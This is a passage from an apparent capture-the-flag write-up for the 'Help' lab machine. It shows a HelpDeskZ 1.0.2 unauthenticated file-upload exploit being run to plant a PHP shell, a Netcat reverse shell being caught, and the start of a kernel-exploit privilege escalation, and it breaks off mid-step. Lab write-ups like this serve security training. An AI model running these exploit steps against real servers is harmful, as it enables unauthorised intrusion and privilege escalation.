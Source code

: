        sys.exit(0)
 
print "Sorry, I did not find anything"
{% endhighlight %}

5) Run the script.

{% highlight plaintext %}
root@kali:~# python exploit.py http://10.10.10.121/support/uploads/tickets/ shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/187212870f5853aeaa5787d39b46b16a.php
{% endhighlight %}

Set up a Netcat listener, visit the link, and rejoice.

![](/images/help/image8.png)

Upgrade your shell to a Python TTY:

![](/images/help/image9.png)

And we're on host __help__ as user __help__. The user flag can be found in help's home folder:

{% highlight plaintext %}
help@help:/home/help$ wc -c user.txt
wc -c user.txt
33 user.txt
{% endhighlight %}

# Privilege Escalation: Kernel exploit

One of the first things to do when escalating privileges in Linux is to view the kernel version with `uname -a`:

{% highlight plaintext %}
help@help:/home/help$ uname -a
uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
{% endhighlight %}

I search for "linux 4.4.0-116", and one of the first results is this exploit: [https://www.exploit-db.com/exploits/44298](https://www.exploit-db.com/exploits/44298)

I copy it over to my Kali box and server it up with Python SimpleHTTPServer:
